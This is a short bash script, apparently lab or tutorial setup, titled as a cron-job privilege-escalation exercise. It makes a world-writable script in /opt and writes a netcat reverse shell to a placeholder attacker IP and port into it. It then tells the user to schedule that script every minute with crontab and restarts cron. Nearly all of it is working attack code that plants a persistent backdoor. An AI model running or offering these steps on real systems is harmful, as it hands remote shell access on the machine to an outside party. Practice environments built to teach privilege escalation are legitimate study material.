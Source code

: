 # Setting Up the Cron Job for Privilege Escalation

# Step 1: Create the Vulnerable Script
echo "Creating the vulnerable script..."
sudo touch /opt/secret_script.sh
sudo chmod 777 /opt/secret_script.sh  # Give full permissions to allow modification

# Step 2: Add Malicious Code to the Script
echo "Adding reverse shell payload to the script..."
echo '#!/bin/bash' | sudo tee /opt/secret_script.sh
echo 'nc -e /bin/bash <attacker-ip> <attacker-port>' | sudo tee -a /opt/secret_script.sh
sudo chmod +x /opt/secret_script.sh  # Make the script executable

# Step 3: Open the Cron Job Editor
echo "Opening the cron job editor..."
crontab -e

# Step 4: Add a Scheduled Task Manually
echo "Manually add the following line at the bottom of the file:"
echo "* * * * * /bin/bash /opt/secret_script.sh"
echo "After adding, save and exit the editor (CTRL + X, then Y, then ENTER)."

# Step 5: Restart the Cron Service
echo "Restarting the cron service to apply changes..."
sudo service cron restart

echo "Cron job setup complete. The script will execute every minute."

